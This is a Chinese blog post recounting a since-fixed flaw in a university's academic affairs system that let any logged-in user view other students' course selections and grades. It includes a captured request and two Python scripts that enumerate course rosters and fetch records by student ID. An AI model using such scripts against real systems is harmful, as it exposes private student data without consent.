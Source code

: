 ```yaml
---
layout: post
title:  "[漏洞已修复]关于学校教务系统的白给漏洞的综合利用"
date:   2019-06-20
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Life]
tags: [web]
icon: icon-html
---
```


众所周知，学校的教务系统没有钓鱼网站结实。

# 关于漏洞的发现

在使用教务系统时无意间按F12键并点击了检索，发现该处的代码中有学号，自然想到修改

修改为别人学号后可以查看别人的选课信息和成绩

显然，本地发送给服务器的查询请求中包含了需要查询的学号信息

至于学号的获取，网页右上角有“在线消息”，此处无需权限即可查看**任意**选课号下对应的选课名单（现在已修复为限制特定权限级别查询）

# 关于编写脚本获取选课名单

在*在线消息*中输入任意选课号进行抓包，POST方法的HTTP请求包如下:

```tcl
POST /taglib/DataTable.jsp?tableId=3241&type=skbjdm HTTP/1.1
Host: jwgl.ouc.edu.cn
Content-Length: 249
Cache-Control: max-age=0
Origin: http://jwgl.ouc.edu.cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp
Accept-Language: zh-CN,zh;q=0.9
Cookie: LOGIN=; UM_distinctid=; SCREEN_NAME=; JSESSIONID=08DA7D4BDD750E8576F21CD46475F0E1.kingo
Connection: close

hidOption=&hidKey=&userId=&roletype=&jsrdm=&jsrmc=&nj=2019&yhdm=&emptyFlag=0&xm=&xn=2018&xq=2&style=SKBJDM&bmdm=&gradeController=on&nj2=2019&yxbdm=&sel_role=ADM000&xnxq=2018-2&sel_skbjdm=02003040&queryInfo=&_xxbt=&xxbt=&_xxnr=&xxnr=&fjmc=
```

保护个人隐私，相关个人信息未显示

经过试验发现，该请求包中的cookies只有`Jsessionid`有意义，POST的数据中`xnxq`和`sel_skbjdm`对应**学期**和**选课号**，于是编写脚本即可

值得注意的是此处应用了`referer`来（反初级爬虫？），需要在`header`中额外添加

```python
#coding=utf-8
import requests
import re
url = "http://jwgl.ouc.edu.cn/taglib/DataTable.jsp?tableId=3241&type=skbjdm"
data = {
    "xnxq": "2019-0",
    "sel_skbjdm": "02003001"
}
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp"
s  = requests.Session()
s.headers.update({'referer': refer})
response = s.post(url, data = data, cookies = cookie)
content = response.text
str1 = re.findall(r"name='yhxh'  align='left' >(.+?)</td>", content)
print str1
```

# 关于按学号获取选课清单

直接检索个人选课信息，抓包发现请求的地址为`http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params=*****`

后面的一串字符经过**BASE64**解码发现是`xn=2018&xq=2&xh=（学号）`

直接编写GET请求脚本即可

```python
import requests
import base64
import re
url0 = 'http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params='
name = 'xn=2018&xq=2&xh=（学号）'
url1 = base64.b64encode(name)
url = url0 + url1
s  = requests.Session()
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/student/xkjg.wdkb.jsp?menucode=JW130416"
s.headers.update({'referer': refer})
r = s.get(url, cookies=cookie)
str0 = r.text
str1 = re.findall(r"name=\"skbjdm\" style=\"display: none\">(.+?)</td>", str0)
str2 = re.findall(r"right;\">(.+?)</td>", str0)
print str1
print str2
```

注：此漏洞已修复，现在修改学号GET选课清单已经失效

# 综合利用

把这两个脚本合在一起即可实现科学选课

但是漏洞修复了

想要再进行科学选课的话……

提权从入门到开除，请

